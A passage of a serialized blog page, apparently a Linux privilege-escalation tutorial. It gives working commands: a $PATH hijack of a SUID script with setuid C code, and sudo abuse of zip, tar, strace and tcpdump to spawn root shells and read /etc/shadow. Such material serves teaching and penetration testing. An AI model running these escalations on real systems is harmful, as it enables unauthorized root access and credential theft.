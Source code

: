 \\u002Fbin\\u002Fsh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_32":{"id":"600154e55c0b\_32","\_\_typename":"Paragraph","name":"aaee","text":"tcpdump","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_33":{"id":"600154e55c0b\_33","\_\_typename":"Paragraph","name":"b333","text":"$ echo $’id\\\\ncat \\u002Fetc\\u002Fshadow’ \\u003E \\u002Ftmp\\u002F.shell\\n$ chmod +x \\u002Ftmp\\u002F.shell\\n$ tcpdump -ln -i eth0 -w \\u002Fdev\\u002Fnull -W 1 -G 1 -z \\u002Ftmp\\u002F.shell -Z root","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_34":{"id":"600154e55c0b\_34","\_\_typename":"Paragraph","name":"9157","text":"If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[{"\_\_typename":"Markup","start":228,"end":231,"type":"EM","href":null,"anchorType":null,"userId":null,"linkMetadata":null}\],"dropCapImage":null},"Paragraph:600154e55c0b\_35":{"id":"600154e55c0b\_35","\_\_typename":"Paragraph","name":"5e75","text":"$ export PATH=.:$PATH\\n$ cat setuid.c\\n#include \\u003Cstdio.h\\u003E\\nint main(void)\\n{\\nsetuid(0); setgid(0); seteuid(0); setegid(0); execvp(“\\u002Fbin\\u002Fsh”, NULL, NULL);\\n}\\n$ mv setuid scp\\n$ .\\u002Fscript.sh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_36":{"id":"600154e55c0b\_36","\_\_typename":"Paragraph","name":"5789","text":"\\\\x04 Abuse SUDO","type":"H3","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_37":{"id":"600154e55c0b\_37","\_\_typename":"Paragraph","name":"531a","text":"Use the following command to show which command have allowed to the current user.","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_38":{"id":"600154e55c0b\_38","\_\_typename":"Paragraph","name":"42f7","text":"$ sudo -l","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_39":{"id":"600154e55c0b\_39","\_\_typename":"Paragraph","name":"c026","text":"And if you find the following command with NOPASSWD and root set in the output. You win again !!!\\nzip","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_40":{"id":"600154e55c0b\_40","\_\_typename":"Paragraph","name":"42d2","text":"$ sudo zip \\u002Ftmp\\u002Ftest.zip \\u002Ftmp\\u002Ftest -T --unzip-command=”sh -c \\u002Fbin\\u002Fbash”","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_41":{"id":"600154e55c0b\_41","\_\_typename":"Paragraph","name":"aa3a","text":"tar","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_42":{"id":"600154e55c0b\_42","\_\_typename":"Paragraph","name":"787a","text":"$ sudo tar cf \\u002Fdev\\u002Fnull testfile --checkpoint=1 — checkpointaction=exec=\\u002Fbin\\u002Fbash","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_43":{"id":"600154e55c0b\_43","\_\_typename":"Paragraph","name":"ed23","text":"strace","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_44":{"id":"600154e55c0b\_44","\_\_typename":"Paragraph","name":"c2f1","text":"$ sudo strace -o\\u002Fdev\\u002Fnull \\u002Fbin\\u002Fbash","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_45":{"id":"600154e55c0b\_45","\_\_typename":"Paragraph","name":"6eb6","text":"tcpdump","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_46":{"id":"600154e55c0b\_46","\_\_typename":"Paragraph","name":"43af","text":"$ echo $’id\\\\ncat \\u002Fetc\\u002Fshadow’ \\u003E \\u002Ftmp\\u002F.shell\\n$ chmod +x \\u002Ftmp\\u002F.shell\\n$ sudo tcpdump -ln -i eth0 -w \\u002Fdev\\u002Fnull -W 1 -G 1 -z \\u002Ftmp\\u002F.shell -Z